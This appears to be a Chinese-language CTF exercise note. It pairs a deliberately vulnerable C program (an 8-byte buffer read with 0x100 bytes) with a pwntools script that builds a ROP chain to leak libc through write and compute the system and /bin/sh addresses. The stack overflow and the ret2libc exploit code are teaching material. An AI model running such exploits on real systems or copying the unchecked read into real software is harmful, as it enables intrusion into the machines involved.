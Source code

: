 这里是通过write函数泄露libc的地址

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int dofunc(){
    char b[8] = {};
	write(1,"input:",6);//2,3,4 fd=open('./a');puts
	read(0,b,0x100);
	write(1,"byebye",6);
    return 0;
}

int main(){
    dofunc();
    return 0;
}
```

**exp:**

x86

```python
# -*- coding: UTF-8 -*-
from pwn import *
context(log_level='debug',arch='i386', os='linux')
pwnfile= './question_5_x86'
io = process(pwnfile)
#io = remote('', )
elf = ELF(pwnfile)
rop = ROP(pwnfile)
libc_file_path = '/lib/i386-linux-gnu/libc.so.6' 
libc = ELF(libc_file_path)

padding = 0x14  
leak_func_name = 'write'
leak_func_got = elf.got[leak_func_name]
#要泄露函数的.got.plt的地址
return_addr = elf.symbols['dofunc']
write_sym = elf.symbols['write']
""" pop_edi_ret = 0x4011fb
pop_esi_e15_ret = 0x4011f9 """

payload = flat([b'a'* padding , write_sym , return_addr , 1 , leak_func_got , 4 ])
delimiter = 'input:'
io.sendlineafter(delimiter, payload)

io.recvuntil('byebye')
write_addr = u32(io.recv(4))
print('write_addr:',hex(write_addr))

wirte_offset = libc.symbols[leak_func_name]
libc_addr = write_addr - wirte_offset
print('libc_addr:',hex(libc_addr))

system_offset = libc.symbols['system']
system_addr = libc_addr + system_offset
print('system_addr:',hex(system_addr))

bin_sh_offset = next(libc.search(b'/bin/sh'))
bin_sh_addr = libc_addr + bin_sh_offset
print('bin_sh_addr:',hex(bin_sh_addr))

```